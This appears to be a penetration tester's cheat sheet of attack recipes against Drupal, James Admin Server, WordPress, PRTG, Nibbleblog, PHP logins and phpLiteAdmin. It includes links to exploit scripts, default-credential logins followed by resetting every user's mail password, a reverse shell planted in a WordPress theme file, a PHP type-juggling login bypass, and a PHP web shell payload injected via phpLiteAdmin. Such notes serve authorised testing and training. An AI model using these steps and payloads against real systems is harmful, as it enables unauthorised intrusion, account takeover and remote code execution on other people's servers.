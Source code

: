 ### drupal
``` bash
droopescan scan -u IP
# initial shell(limited function) 
# https://github.com/dreadlocked/Drupalgeddon2 
# only command execution 
# https://github.com/Jack-Barradell/exploits/blob/master/CVE-2018-7600/cve-2018-7600-drupal7.py
```

### James Admin Server initial foothold & POP3
```bash
# If you find something on port 4555 and also running POP3
# try login to port 4555 via telnet with root:root
# if you successfully login, run
listusers
# reset all the password
setpassword USER 123
#Then connect to port 110 POP3, login all user account to read the mail
USER USER
PASS 123
LIST
RETR 1
```

### Wordpress non public exploit
* if able to login to the admin panel
  * go to apperance and select 404.php, replace content with reverse shell payload, setup listener, go to nonexisting page
  * [plugin shell upload](https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell)

### prtg
* [Python2 exploit](https://github.com/wildkindcc/CVE-2018-9276/blob/master/CVE-2018-9276.py )
* [Python3  exploit](https://github.com/A1vinSmith/CVE-2018-9276/blob/main/exploit.py )

### nibbleblog
* [Shell upload script](https://github.com/dix0nym/CVE-2015-6967)
```
python nibble.py --url URL --username USER --password  PASS -x PAYLOAD
```

### post form login bypass with type juggling
* if server using php post form login,
may check php type juggling
just add a `[]` between `password` and `=`

### code injection with phpliteadmin
* create a new database with name anything.php
* create new table name as shell with number of field 1
* 1 variable be name shell, type TEXT and default value <?php system($_GET[cmd])?> 
* trigger it with LFI, the file probably in /var/tmp/anything.php
* use with &cmd=command
